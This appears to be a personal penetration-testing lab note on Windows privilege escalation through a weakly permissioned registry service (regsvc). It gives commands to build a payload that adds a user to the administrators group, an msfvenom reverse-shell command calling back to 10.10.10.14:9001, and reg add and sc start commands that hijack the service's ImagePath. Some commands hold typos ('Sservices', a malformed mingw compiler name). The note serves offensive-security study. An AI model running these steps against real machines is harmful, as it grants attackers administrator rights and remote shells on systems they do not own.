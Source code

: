 -- -
[[Dark Arts/Privesc/Windows/Enumeration/Regsvc ACL|Enum]]
#### Payload
The payload can do anything I believe, in our example case it will be a C file that will run the system command `cmd.exe /k net localgroup administrators user /add` to add `user` to the `administrators` group. 

**Note for later, copy the C file [[Dark Arts I/Useful Code/~Home|here]] when doing the lab, make sure to link it here**
To compile above linked code `windows_service.c` :
```bash
# install compiler if necessary
sudo apt install gcc-mingw-w64

# compile
x86_64 -w64-mingw-gcc windows_service.c -o x.exe
```

You can also just make a reverse shell with msfvenvom:
```bash
msfvenom -p windows/x64/reverse_tcp lhost=10.10.10.14 lport=9001 -f exe -o x.exe
```
[[Dark Arts I/File Transfer/Windows|File transfer]] malware executable to the target windows box
#### Exploit
For this example, payload `x.exe` was transferred to `C:\Temp`
```powershell
# add malware to registry
reg add HKLM\SYSTEM\CurrentControlSet\Sservices\regsvc /v ImagePath /t REG_EXPAND_SZ /d <path to malware> /f 

reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f 

# start the service
sc start regsvc

# You should have caught a reverse shell if you went with that, if you went with the user add and windows_service.c, then confirm "user" was added to "administrators" group:
net localgroup administrators

# then log in as "user"
```